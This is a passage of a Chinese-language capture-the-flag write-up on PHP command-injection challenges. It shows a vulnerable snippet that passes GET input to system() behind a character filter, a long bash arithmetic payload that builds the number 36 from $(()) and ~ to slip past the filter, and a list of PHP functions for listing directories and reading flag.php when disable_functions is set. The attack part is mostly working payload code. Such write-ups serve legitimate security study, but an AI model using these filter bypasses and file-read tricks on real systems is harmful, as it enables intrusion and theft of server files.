 ```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
}
```

利用`$(())`和`~`来构造出数字36

```sh
echo ${_} #返回上一次的执行结果
echo $(()) #0
echo ~$(()) #~0
echo $((~$(()))) #~0是-1
echo $(($((~$(())))$((~$(()))))) #$((-1-1))即$$((-2))是-2
echo $((~-37)) #~-37是36
~$(())=-0；$((~$(())))=-1；#那么36个$((~$(())))相加再取反即得36
```

最终payload：

```sh
$((~$(($((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))))))
```

## 58-65-disable_functions

disable_functions禁用了很多函数，方法很多

> 目录遍历：
>
> ```
> scandir()、dirname():
> var_dump(scandir("./"));
> var_dump(scandir(dirname('__FILE__')));
> var_dump(scandir("glob://./*"));
> ```
>
> 读文件：
>
> ```
> file_get_content()：echo file_get_content('flag.php');
> show_source()
> include()
> highlight_file()
> readfile()
> var_dump() / print_r() +file()：var_dump(file('flag.php'));
> ```
>
> 
